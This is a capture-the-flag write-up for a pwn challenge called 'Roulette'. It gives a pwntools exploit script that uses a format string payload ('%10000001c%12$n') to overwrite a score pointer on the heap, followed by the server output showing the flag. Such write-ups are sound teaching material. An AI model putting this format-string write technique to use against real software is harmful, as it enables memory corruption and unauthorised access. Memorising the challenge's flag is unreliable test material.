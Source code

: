 # Roulette

**Category**: Pwn

![./screenshots/0.png](./screenshots/0.png)

We were given a server(and a sample ELF file), containing a roulette game. If we guess correctly every round & win enough points - we'll get the flag.

# Solution

The intended solution involves integer overflow, insecure PRNG & leaking values using another bug(format string).

However, during the CTF, I found an un-intended pathway to exploit the roulette game & get the flag.

```py
#!/usr/bin/env python
from pwn import *
exe = context.binary = ELF('./roulette.bin')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote('challenges.ctfd.io', 30426)
    else:
        return process([exe.path] + argv, *a, **kw)


magic_num   = b'202009'
num_rounds  = b'%10000001c%12$n' # overwriting the 'score' pointer value on the heap(located at the 12th element on the stack), 
                                 # https://www.youtube.com/watch?v=KpXsfimrkFo


# ==============================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.recvuntil(b'play(Up to 2)?\n')
io.sendline(b'2')
io.recvuntil(b'Choose your bet (1-36)\n')
io.sendline(magic_num)
io.recvuntil(b'you entered the right one):\n')
io.sendline(num_rounds)
io.recvuntil('Won')

io.interactive()
```

The format string payload(in ``num_rounds``) will overwrite the 'score' pointer value on the heap(this pointer is located at the 12th element on the stack) with the value ``10000001``, allowing us to affect the ``jle`` instruction(below).

![./screenshots/1.png](./screenshots/1.png)

If the jump will not be taken, we will win the game & get the flag.

output from server:
```
You Won!
The Flag is: MCL{I_HOPE_YOU'LL_BE_HAPPY_NOW}
```

(: